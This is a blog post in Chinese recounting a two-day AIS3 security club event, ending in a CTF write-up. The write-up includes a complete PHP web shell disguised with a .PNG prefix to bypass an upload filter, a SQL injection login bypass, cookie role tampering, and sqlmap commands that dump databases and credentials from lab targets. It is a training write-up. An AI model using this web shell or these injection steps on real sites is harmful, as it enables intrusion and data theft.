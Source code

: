 ```yaml
---
title: "AIS3 Club"
date: 2023-11-21T02:06:59+08:00
description: "2023/11/19-20"
draft: false

---
```


應該是我第一次參加AIS3的實體活動, 活動共兩天

### Day 1
上午是AIS3的介紹+實境解謎

解謎的題目涵蓋 資訊搜尋 古典密碼 還有~~消耗體力~~

下午則是玩奧義科技的桌遊{{< spoiler >}}但沒有桌子就是了{{< /spoiler>}}

[Cybercans：資安人生物語](https://hackmd.io/@samuel-t-chou/H1lVj28T_#Cybercans%EF%BC%9A%E8%B3%87%E5%AE%89%E4%BA%BA%E7%94%9F%E7%89%A9%E8%AA%9E)

![image](/20231119/cybercans.jpg)

{{< extended 小小心得 >}}這遊戲玩起來就是看著自己不停的骰到被攻擊的格子 然後看著自己的防禦被各種打穿 開局骰第一次直接被打穿兩次 {{< /extended >}}

桌遊結束後就是交流的pizza party了

![image](/20231119/pizzap.jpg)

### Day 2

第二天就是滿滿的網頁安全CTF了
蠻神奇的是我旁邊坐了一位弘光科大的教授

以下是writeup

### Introduction
![image](/20231119/introduction.png)

### Welcome
![image](/20231119/welcome.png)


在respond封包裡找到flag
![image](/20231119/welcome-2.png)

### Never Login
![image](/20231119/never_login.png)
![image](/20231119/never_login-3.png)
![image](/20231119/never_login-2.png)

html中有 JS 會阻擋密碼送出, 在設定中打開`禁用JavaScript`, 並將最下方找到的密碼送出就能拿到flag

### Who are you
![image](/20231119/whoareyou.png)
![image](/20231119/whoareyou-2.png)

隨便填`username`然後改cookie中的`role`為`admin`就能拿到flag

### dir
![image](/20231119/dir.png)

使用 `dirsearch` 之類的工具可以找到這題的網頁下有兩個資料夾
```shell
dirsearch -u https://dir.entroy.tk --random-agent 
->
[11:56:19] 301 -  236B  - /admin  ->  http://dir.entroy.tk/admin/
[11:56:52] 301 -  236B  - /image  ->  http://dir.entroy.tk/image/ 
```

搜尋`/admin`
```
[12:56:22] 200 -    2KB - /admin/manage.php
```
可以看到有一個`/admin/manage.php`的頁面的狀態碼是200代表可以正常訪問
在`/admin/manage.php`的html中可以找到flag

### Image Space 0x01 

![image](/20231119/upload.png)

上傳一個web shell的檔案
先把JS關掉以免php的檔案被擋

網路上找到的web shell code
在前面加上.PNG 欺騙伺服器
``` 
.PNG <html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
最後透過 web shell 找到flag

### Boolean based SQL Injection 
![image](/20231119/sqlib.png)

![image](/20231119/sqlib2.png)

嘗試往輸入欄填入可能會造成錯誤的文字
得到
```sql
SELECT * FROM user WHERE username =(""'") AND password = ("")
```

嘗試 `admin")#`

![image](/20231119/sqlib3.png)
拿到flag

### Union Select
![image](/20231119/ubsqli.png)
![image](/20231119/ubsqli2.png)
用`sqlmap`檢查database
```bash
sqlmap https://sqli.entroy.tk/union_based_sqli.php?id=1 -p id --level 5 --risk 3 --batch --random-agent --technique BU --dbs

->
[19:47:35] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] union_based_sqli
```

檢查`union_base_sqli`中的`table`
```bash
sqlmap https://sqli.entroy.tk/union_based_sqli.php?id=1 -p id --level 5 --risk 3 --batch --random-agent --technique BU --dbs -D union_based_sqli --tables

-> 
[19:51:32] [INFO] fetching tables for database: 'union_based_sqli'
Database: union_based_sqli
[2 tables]
+--------------+
| h1dd3n_tab13 |
| users        |
+--------------+
```

檢查`h1dd3n_tab13`中的`columns`

```bash
sqlmap https://sqli.entroy.tk/union_based_sqli.php?id=1 -p id --level 5 --risk 3 --batch --random-agent --technique BU --dbs -D union_based_sqli --tables -T h1dd3n_tab13 --columns

->
[19:53:15] [INFO] fetching columns for table 'h1dd3n_tab13' in database 'union_based_sqli'
Database: union_based_sqli
Table: h1dd3n_tab13
[1 column]
+-------------+--------------+
| Column      | Type         |
+-------------+--------------+
| secret_flag | varchar(100) |
+-------------+--------------+
```

提取出`secret_flag`

```bash
sqlmap https://sqli.entroy.tk/union_based_sqli.php?id=1 -p id --level 5 --risk 3 --batch --random-agent --technique BU --dbs -D union_based_sqli --tables -T h1dd3n_tab13 --columns -C secret_flag --dump

->
[19:55:06] [WARNING] reflective value(s) found and filtering out
Database: union_based_sqli
Table: h1dd3n_tab13
[1 entry]
+---------------------------------------------------------+
| secret_flag                                             |
+---------------------------------------------------------+
| flag{Un10n_B@s3d_SQL1_25e406a0db22ea899d8ddd72958254fd} |
+---------------------------------------------------------+
```

### Easy Real World
情境源自[HITCON ZeroDay 高雄鳳山統一當鋪資料庫注入漏洞](https://zeroday.hitcon.org/vulnerability/ZD-2019-01191)

觀察當中幾個頁面的url

`https://target.entroy.tk/service_open.php?id=1`

好像可以用`sqlmap`掃一下
```bash
sqlmap https://target.entroy.tk/service_open.php?id=1 -p id --level 5 --risk 3 --batch --random-agent

-> 
[19:58:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=20 AND 8277=8277

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=-8195 UNION ALL SELECT NULL,CONCAT(0x7178716271,0x42754c584747795378524b4559736c494c75754344475278674c734f59436a655555697a43426179,0x716b6a7a71),NULL,NULL-- -
---
```

開始找有用的資訊...

最後在 `tongyi->master`中找到帳號密碼

```bash
sqlmap https://target.entroy.tk/service_open.php?id=20 -p id --level 5 --risk 3 --batch --random-agent --technique BU -dbs -D tongyi --tables -T master --columns --dump
```

開始找登入介面

```bash
dirsearch -u https://target.entroy.tk/ --random-agent

->
[20:04:33] 301 -  236B  - /js  ->  http://target.entroy.tk/js/                           
[20:05:37] 200 -    6KB - /about.php               
[20:07:29] 200 -    7KB - /contact.php  
[20:07:30] 301 -  241B  - /control  ->  http://target.entroy.tk/control/    
[20:07:33] 301 -  237B  - /css  ->  http://target.entroy.tk/css/       
[20:08:05] 200 -    1KB - /footer.php                                       
[20:08:17] 200 -  770B  - /header.php                       
[20:08:26] 301 -  240B  - /images  ->  http://target.entroy.tk/images/     
[20:08:58] 200 -    5KB - /map.php                                          
[20:09:12] 200 -    9KB - /news.php                                         
[20:09:57] 200 -    0B  - /settings.php                                     
[20:10:17] 302 -    0B  - /system/  ->  key.php                             
[20:10:17] 301 -  240B  - /system  ->  http://target.entroy.tk/system/      
[20:10:33] 301 -  240B  - /upload  ->  http://target.entroy.tk/upload/                                     
```

連到`system/key.php` 找到登入介面

使用前面找到的帳密做登入
成功進到後台
![image](/20231119/realworld.png)

找地方上傳 web shell
然後就可以RCE了

{{< extended qwq >}}
但我找不到flag
{{< /extended >}}